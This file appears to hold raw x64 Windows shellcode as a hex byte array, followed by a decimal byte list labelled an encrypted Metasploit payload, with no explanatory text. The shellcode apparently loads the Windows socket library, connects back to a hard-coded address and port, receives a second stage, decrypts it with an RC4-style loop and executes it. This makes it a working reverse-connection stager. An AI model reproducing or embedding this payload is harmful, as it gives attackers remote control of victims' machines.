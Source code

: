 ## Raw Payload 

0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,
0x66,0x81,0x78,0x18,0x0b,0x02,0x41,0x51,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,
0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,
0x0d,0xac,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,
0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x41,0x58,
0x41,0x58,0x5e,0x48,0x01,0xd0,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,0x00,
0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,0xe5,
0x49,0xbc,0x02,0x00,0x01,0xbb,0x0a,0x00,0x02,0x0f,0x41,0x54,0x49,0x89,0xe4,
0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,
0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,
0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,
0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,
0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,0xce,0x75,0xe5,
0xe8,0x1f,0x01,0x00,0x00,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,
0x6a,0x04,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,
0x83,0xf8,0x00,0x0f,0x8e,0x6d,0x00,0x00,0x00,0x48,0x83,0xc4,0x20,0x5e,0x89,
0xf6,0x81,0xf6,0xad,0xbd,0x8e,0x19,0x4c,0x8d,0x9e,0x00,0x01,0x00,0x00,0x6a,
0x40,0x41,0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,
0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x8d,0x98,0x00,0x01,0x00,
0x00,0x49,0x89,0xdf,0x53,0x56,0x50,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,
0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x48,0x83,0xc4,
0x20,0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40,0x00,0x00,
0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x59,
0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x20,0xff,0xff,
0xff,0x48,0x01,0xc3,0x48,0x29,0xc6,0x75,0xb3,0x49,0x89,0xfe,0x5f,0x59,0x41,
0x59,0x41,0x56,0xe8,0x10,0x00,0x00,0x00,0x17,0xa2,0x41,0xee,0xcb,0xa9,0x78,
0x1c,0x7b,0xe2,0x19,0x37,0x54,0x86,0x9c,0xad,0x5e,0x48,0x31,0xc0,0x49,0x89,
0xf8,0xaa,0xfe,0xc0,0x75,0xfb,0x48,0x31,0xdb,0x41,0x02,0x1c,0x00,0x48,0x89,
0xc2,0x80,0xe2,0x0f,0x02,0x1c,0x16,0x41,0x8a,0x14,0x00,0x41,0x86,0x14,0x18,
0x41,0x88,0x14,0x00,0xfe,0xc0,0x75,0xe3,0x48,0x31,0xdb,0xfe,0xc0,0x41,0x02,
0x1c,0x00,0x41,0x8a,0x14,0x00,0x41,0x86,0x14,0x18,0x41,0x88,0x14,0x00,0x41,
0x02,0x14,0x18,0x41,0x8a,0x14,0x10,0x41,0x30,0x11,0x49,0xff,0xc1,0x48,0xff,
0xc9,0x75,0xdb,0x5f,0x41,0xff,0xe7,0x58,0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,
0x0a,0x41,0x89,0xda,0xff,0xd5 


## Encrypted MSF Payload

0,84,37,71,69,109,37,60,21,235,228,108,17,204,176,36,198,93,237,156,145,184,238,1,181,165,137,167,87,222,160,187,124,92,78,221,178,215,171,14,172,89,71,68,151,9,103,63,95,141,211,34,201,140,241,165,213,137,208,219,133,54,49,0,118,133,190,221,53,211,9,195,97,221,194,177,206,206,125,105,253,3,73,151,85,112,83,140,229,51,128,197,75,241,140,169,228,9,68,236,172,198,13,57,86,126,136,198,101,115,100,168,67,172,1,23,243,65,214,158,137,240,184,134,226,247,9,210,161,215,247,224,100,196,115,239,170,12,207,194,2,0,143,251,187,15,171,245,24,105,3,68,10,81,252,63,250,150,219,229,147,55,50,11,237,89,185,220,100,248,20,180,42,175,246,34,27,1,138,146,62,40,110,40,131,30,110,193,189,206,206,204,62,138,78,2,102,75,130,176,183,93,184,252,9,136,155,117,228,39,177,96,169,181,89,233,114,114,29,56,223,163,247,33,145,203,41,151,165,242,162,133,149,123,84,169,156,172,75,103,144,63,254,1,100,158,82,30,53,99,48,242,80,94,76,100,131,28,114,3,119,227,147,76,105,132,185,70,93,236,253,186,193,177,67,202,216,136,241,19,146,16,146,184,5,41,206,30,4,95,176,204,190,95,71,7,146,160,30,113,50,249,159,156,194,14,53,130,12,252,44,159,214,216,139,81,51,145,166,5,194,165,155,160,230,79,185,162,170,103,2,110,95,48,207,207,215,245,167,106,133,70,28,238,114,70,152,6,9,173,132,7,76,226,242,193,123,148,140,199,238,178,109,188,235,52,137,157,233,228,81,21,238,197,38,148,121,77,250,62,190,148,9,98,213,65,17,224,43,153,102,65,34,76,217,18,54,117,124,246,42,35,55,205,128,212,143,103,129,159,63,126,154,233,189,189,129,172,105,126,196,93,129,181,62,90,71,62,21,1,35,36,178,86,38,136,99,236,234,223,206,29,224,176,92,148,177,156,105,108,247,1,254,95,178,199,130,249,238,237,111,190,157,174,97,20,7,38,124,212,149,147,88,167,248,21,105,88,63,52,17,5,248,164,123,178,159,54,131,119,49,111,210,170,15,64,146,11,143,67,85,105,113,47,58,174,127,121,33,249,139,86,184,233,12,50,119,83,90,146,114,98,124,170,121,200,0,74,182,5,168,82,217,136,42,113,37,178,43,47,13,54,107,220,100,51,151,127,144,73,49,94,153,229,178,22,43,123,60,95,65,153,67,23,43,34,249,173,252,129,225,34,230,206,232,44,164,19,124,154,91,61,246,235,20,238,230,19,111,165,130,153,171,9,199,117,249,230,70,219,29,142,94,229,67,238,138,71,195,188,77,116,235,131,59,56,175,31,250,134,20,116,6,26,39,223,117,44,31,12,127,227,19,190,130,41,101,113,44,170,14,21,217,8,36,147,244,28,243,243,50
